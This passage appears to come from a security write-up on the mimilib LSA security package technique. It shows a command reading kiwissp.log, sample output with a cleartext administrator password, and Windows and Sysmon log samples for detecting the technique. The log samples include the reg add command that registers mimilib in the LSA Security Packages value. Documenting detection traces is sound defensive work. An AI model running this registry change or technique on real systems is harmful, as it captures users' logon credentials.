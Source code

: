 ```dos
type C:\Windows\system32\kiwissp.log
```

```test
C:\Users\Administrator>type C:\Windows\system32\kiwissp.log
[00000000:000003e7] [00000002] WORKGROUP\DC$ (DC$)
[00000000:00049cd0] [00000002] DC\Administrator (Administrator) admin.098
[00000000:000003e5] [00000005] \ (LOCAL SERVICE)
```

## 测试留痕

- **Windows安全日志（事件ID 4688，进程创建）**：
  ```plaintext
  EventID: 4688
  New Process ID: 0x5c8
  New Process Name: C:\Windows\System32\reg.exe
  CommandLine: reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /t REG_MULTI_SZ /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib"
  Creator Process ID: 0x748
  Creator Process Name: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  Token Elevation Type: TokenElevationTypeDefault (1)
  ```

- **Windows安全日志（事件ID 4656，注册表访问）**：
  ```plaintext
  EventID: 4656
  Object Server: Security
  Object Type: Key
  Object Name: \REGISTRY\MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
  Handle ID: 0x508
  Process ID: 0x748
  Process Name: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  Accesses: READ_CONTROL, Query key value, Enumerate subkeys, Notify
  ```

- **Sysmon日志（事件ID 13，注册表修改）**：
  ```plaintext
  EventID: 13
  EventType: SetValue
  UtcTime: 2025-06-10 03:00:00.123
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ab}
  Image: C:\Windows\System32\reg.exe
  TargetObject: HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
  Details: kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib
  User: CONTOSO\Administrator
  ```

- **Sysmon日志（事件ID 7，DLL加载）**：
  ```plaintext
  EventID: 7
  UtcTime: 2025-06-10 03:00:00.234
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ac}
  Image: C:\Windows\System32\lsass.exe
  ImageLoaded: C:\Windows\System32\mimilib.dll
  Hashes: SHA256=ABCDEF1234567890ABCDEF1234567890ABCDEF1234567890ABCDEF1234567890
  User: NT AUTHORITY\SYSTEM
  ```
